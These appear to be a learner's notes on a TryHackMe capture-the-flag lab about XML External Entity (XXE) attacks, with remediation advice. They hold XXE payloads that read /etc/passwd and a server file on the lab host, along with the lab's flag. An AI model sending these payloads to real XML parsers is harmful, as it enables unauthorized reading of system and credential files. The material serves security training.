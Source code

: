 ******************************************************************************************************************************
                    Day 5: SOC-mas XX-what-ee?
******************************************************************************************************************************

Understand the basic concepts related to XMLXML handling data like a file drawer.
Explore XML External Entity (XXE) and its components
Learn how to exploit the vulnerability
Understand remediation measures

Extensible Markup Language (XML)
XML is a commonly used method to transport and store data in a structured format that humans and machines can easily understand.

Example

<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

Document Type Definition (DTD)
A DTD is a set of rules that defines the structure of an XML document. Just like a database scheme, it acts like a blueprint, telling you what elements (tags) and attributes are allowed in the XML file.

Example

<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>

Entities
Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files.

Entity reference = &<Entity>;

Example

<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

We are specifically discussing external entities because it is one of the main reasons that XXE is introduced if it is not properly managed.

XML External Entity (XXE)
XXE is an attack that takes advantage of how XML parsers handle external entities.

Example

<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>

Disable External Entity Loading: The primary fix is to disable external entity loading in your XML parser. In PHP, for example, you can prevent XXE by setting libxml_disable_entity_loader(true) before processing the XML.
Validate and Sanitise User Input: Always validate and sanitise the XML input received from users. This ensures that only expected data is processed, reducing the risk of malicious content being included in the request. For example, remove suspicious keywords like /etc/host, /etc/passwd, etc, from the request.

******************************************
                Investigation
******************************************        

Wareville's WishVille

http://10.10.250.158
http://10.10.250.158/product.php
http://10.10.250.158/wishes/wish_21.txt

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_2.txt"> ]>
                <wishlist>
                    <user_id>1</user_id>
                    <item>
                        <product_id>
&payload;</product_id>
                    </item>
                </wishlist>

http://10.10.250.158/CHANGELOG

commit 3f786850e387550fdab836ed7e6dc881de23001b (HEAD -> master, origin/master, origin/HEAD)
Author: Mayor Malware - Wareville <mayor@wareville.org>
Date:   Wed Dec 4 21:24:22 2024 +0200

    Fixed the wishlist.php page THM{m4y0r_m4lw4r3_b4ckd00rs}

commit 89e6c98d92887913cadf06b2adb97f26cde4849b (tag: v1.0.0)
Author: Software - Wareville <software@wareville.org>
Date:   Thu Dec 4 14:45:18 2024 +0200

    Almost done with the wishlists page, needs to handle XML parsing

commit 2b66fd261ee5c6cfc8de7fa466bab600bcfe4f69
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:20:57 2024 +0200

    Finally done with the landing page and initial CSS

commit e983f374794de9c64e3d1c1de1d490c0756eeeff
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:19:33 2024 +0200

    Initial commit






*****************************************************
                Commandline Arguments
*****************************************************











*****************************************************
                Section 1
*****************************************************

*****************************************************
                Section 2
*****************************************************

*****************************************************
                Section 3
*****************************************************